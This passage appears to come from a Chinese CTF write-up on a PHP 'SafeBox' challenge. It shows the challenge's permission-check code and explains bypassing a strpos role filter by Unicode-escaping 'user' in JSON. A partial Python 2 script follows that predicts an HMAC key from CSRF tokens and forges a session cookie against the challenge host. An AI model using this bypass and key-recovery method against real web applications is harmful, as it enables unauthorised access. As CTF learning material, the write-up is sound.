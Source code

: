     $config = fd_config();
    $action = isset($_POST['method']) ? $_POST['method'] : "";                          //指定action
    $role = isset($_SESSION["userinfo"]['role']) ? $_SESSION["userinfo"]['role'] : "";
    if(!in_array($role, ['admin', 'user'])) {                                           //判断是否具有权限(1)
        return fd_error('Permission denied!!');
    }
    if(in_array($action, $config['role']['admin']) && $role != "admin") {               //判读行为权限(2)
        return fd_error('Admin permission denied!!');
    }
    $box = new SafeBox();
    if(method_exists($box, $action)) {                                                  //判断对象方法是否存在(3)
        return call_user_func([$box, $action]);                                         //调用相应方法(4)
    } else {
        return null;
    }
}
{% endhighlight %}

首先在初始化_fd_init()中，要点分析如下：

1. 再次hamc_md5校验：这里的校验好说，毕竟`SECRET_KEY`已经知晓，带上个`h1`就好
2. 防止h2中出现"admin"和"user"：这里使用了strpos来查看字符串中是否存在身份伪造，而且使用`！==`很规范，从源码基本也没看出什么破绽
3. $s['role']转为字符串：strval会将数组类型变得没有意义，也就想不出办法绕过对"admin"身份的检验

在fg_safebox()中第一关就是要判断其身份，要求其为"admin"或"user"。结合以上的分析，admin的两次检验我是绕不过去了我认了。所以就开始琢磨能不能使最终的`$role`为"user",而strpos约束我们在$h2中不能出现"user",要不然我们编码试试？哈哈，这里的`$s = json_decode($h2, true);`就是等着我们利用的，可以将"user"进行unicode编码成为`\u0075\u0073\u0065\u0072`,这样在strpos中就不会检验出来，而且经过json_decode最终还原成"user"。

在(2)判读行为权限中，加入$box对象的read方法不在$config['role']['admin']数组内，那么就不会判断`$role != "admin"`，进而产生绕过。我们再修改一下原先的代码（new-2.py）如下：

{% highlight python %}
import re
import requests
import hmac
import base64
import sys
reload(sys)
sys.setdefaultencoding('utf-8') 

url = "http://0dac0a717c3cf340e.jie.sangebaimao.com:82/"
session = requests.session()
str_list = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
re_csrf_token = r'(?<=value=").*?(?=")'
header = {'X-Requested-With': 'XMLHttpRequest'}
action = sys.argv[1]
method = sys.argv[2]    

def parse(token,s):
    d = []
    for i in xrange(len(token)):
        for j in xrange(len(s)):
            if token[i] == s[j]:
                d.append(j)
                break
    return d    

def guess(d,s,a):
    result = []
    for i in xrange(6):
        r = (d[31+i]+62-d[28+i])%62
        result.append(r)
    key = ''.join(s[j] for j in result) 

    return (key,hmac.new(key,a).hexdigest())    

def create_cookie(k):
    h2 = r'{"role":"\u0075\u0073\u0065\u0072"}'

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzjx8q9j20rh06wmxa.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpzkbvkoj20mu0etjry.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzkq869j20h603taae.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzlckcvj20l30gc40g.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpzm24iej20n30c3dhe.jpg